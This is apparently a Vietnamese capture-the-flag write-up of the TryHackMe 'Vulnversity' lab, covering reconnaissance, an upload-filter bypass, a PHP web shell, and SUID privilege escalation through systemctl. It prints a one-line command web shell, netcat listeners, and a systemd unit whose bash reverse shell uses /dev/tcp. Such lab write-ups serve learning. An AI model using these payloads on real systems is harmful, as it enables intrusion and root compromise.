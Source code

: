 # Vulnversity

## 1. Deploy machine
-.- Ấn deploy là được mà bro
## 2. Reconnaissance
Thu thập thông tin về machine dùng công cụ network scanning `Nmap` 
![](https://github.com/dangdh16/OSCP/blob/main/Level_3_/TryHackMe/img/2021-08-31-00-19-46.png)
```
nmap -sV -sC 10.10.46.196
```
Trong đó :
+ -sV: là xác định các service
+ -sC: chạy các script scan mặc định của nmap
+ -p-400: số port nmap quét
+ -n: không resolve ra dns

Từ đó trả lời các câu hỏi.
+ Scan the box, how many ports are open? : 6
+ What version of the squid proxy is running on the machine? 3.5.12
+ How many ports will nmap scan if the flag -p-400 was used? 400
+ Using the nmap flag -n what will it not resolve? DNS
+ What is the most likely operating system this machine is running? Ubuntu (Thấy các dịch vụ chạy của Ubuntu)
+ What port is the web server running on? : 3333. (Ta thấy có Apache httpd)

## 3. Locating directories using GoBuster
Sử dụng tool `gobuster` để tìm directory của các thư mục.
Trong kali linux thì sẽ có wordlist có sẵn ở thư mục : `/usr/share/wordlists/dirbs/common.txt` (tuy nhiên ở đây mình dùng ubuntu, tải wordlist tại: https://github.com/3ndG4me/KaliLists/tree/master/dirb )

Chạy command : 

```
gobuster dir -u http://10.10.46.196:3333 -w /usr/share/wordlists/dirbs/common.txt
```
Trong đó:
+ -u : target URL
+ -w : địa chỉ wordlist
![](https://github.com/dangdh16/OSCP/blob/main/Level_3_/TryHackMe/img/2021-08-31-00-35-10.png)
=> kết quả là tìm được url : `/internal/` => truy cập được trang uploads file
## 4. Compromise the webserver
Sử dụng burpsuite community để bắt request và tìm ra extension có thể upload được file lên, mục đích là upload được file shell lên để RCE.

+ Truy cập trang : http://10.10.46.196:3333/internal
![](https://github.com/dangdh16/OSCP/blob/main/Level_3_/TryHackMe/img/2021-08-31-00-38-55.png)
+ Ấn upload file và dừng ở POST request (intercept is on):
![](https://github.com/dangdh16/OSCP/blob/main/Level_3_/TryHackMe/img/2021-08-31-00-40-27.png)
+ Chuột phải chọn : `Intruder` (Là trang mà ta có thể bruteforce để tìm ra extension phù hợp) => `Clear$` => bôi đen phần extension của file vừa up lên => `Add$`
![](https://github.com/dangdh16/OSCP/blob/main/Level_3_/TryHackMe/img/2021-08-31-00-43-34.png)
+ Trang Payloads : thê những extension : `.php`, `.php2`, `.php3`. `.php5`, `.phtml`
![](https://github.com/dangdh16/OSCP/blob/main/Level_3_/TryHackMe/img/2021-08-31-00-44-56.png)
+ Start attack:
![](https://github.com/dangdh16/OSCP/blob/main/Level_3_/TryHackMe/img/2021-08-31-00-45-31.png)
Chú ý phần kết quả length của `phtml` khác so với phần còn lại (Do trả về chữ success nhỏ hơn chữ Extension not allowed) => có thể upload file `.phtml`

Bước 1 : chuẩn bị file hehe.phtml
```
<?php
    system($_GET('cmd'));
?>
```
Sau khi upload thành công, truy cập bằng đường dẫn :
```
http://10.10.46.196:3333/internal/uploads/hehe.phtml?cmd=cat /etc/passwd
```
Bước 2 : Thực ra phải tải file shell php của tryhackme gợi ý để có thể RCE bằng netcat
+ Tải file và sửa phần 'CHANGE THIS'
+ Sau đó dùng netcat để nghe trên port '1234':
```
nc -lvnp 1234
```
+ Truy cập vào đường dẫn `http://10.10.46.196:3333/internal/uploads/hehe.phtml` để kích hoạt shell.
+ Quay lại trên trình duyệt và gõ  `cat /etc/passwd`
## 5. Privilege Escalation
*Phần này là phần hay nhất :V*

Ngoài các quyền đặc biệt r, w, x còn có `special permission` đó là : SUID, SGID và sticky bits. Trong bài này dùng SUID.

SUID thường được sử dụng trên các file thực thi. Các file nào có bit `s` thì có thể thực hiện với quyền là chủ sở hữu của file đó.
Ví dụ: file sở hữu bởi root và được set SUID bit, thì bất kể ai thực thi file đó luôn chạy dưới quyền root.
+ Câu lệnh để tìm tất cả các file có SUID:
```
find / -perm -u=s -type f 2>/dev/null
```
Ta được kết quả:

![](https://github.com/dangdh16/OSCP/blob/main/Level_3_/TryHackMe/img/2021-08-31-01-13-50.png)
+ Và thử :
```
passwd bill
or
passwd
```
Thì không được là do `whoami` đang là www-data, và passwd chỉ có thể dùng được khi bạn à root hoặc là chủ sở hữu của user đó.
=> `/bin/systemctl`

Source chưa các file có thể RCE : https://gtfobins.github.io/

Chạy lệnh ở máy host để lắng nghe ở port 4444:
```
nc -lvnp 4444
```
+ Tạo service chạy dưới systemd với tên `hehe.service`
```
[Service]
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.46.196/4444 0>&1'
[Install]
WantedBy=multi-user.target
```
    + `/bin/bash -c` : thực thi shell
    + `bash -i >& /dev/tcp/10.10.46.196/4444 0>&1` : Reverse shell (trong reference)
+ Chạy lệnh
```
systemctl enable /tmp/hehe.service
systemctl start hehe.service
```
+ Quay lại máy host :D và :
```
cat /root/root.txt
```
![](https://github.com/dangdh16/OSCP/blob/main/Level_3_/TryHackMe/img/2021-08-31-01-24-08.png)

Done

--- 
> Reference :
<<<<<<< HEAD
=======
> 
>>>>>>> d4136d38cfc6814d74917fa90339490ce65d268c
Reverse shell : https://www.netsparker.com/blog/web-security/understanding-reverse-shells/
https://hackersploit.org/netcat-tutorials/
https://vinasupport.com/systemd-la-gi-huong-dan-tao-va-quan-ly-systemd-services-tren-linux/
https://gtfobins.github.io/gtfobins/systemctl/
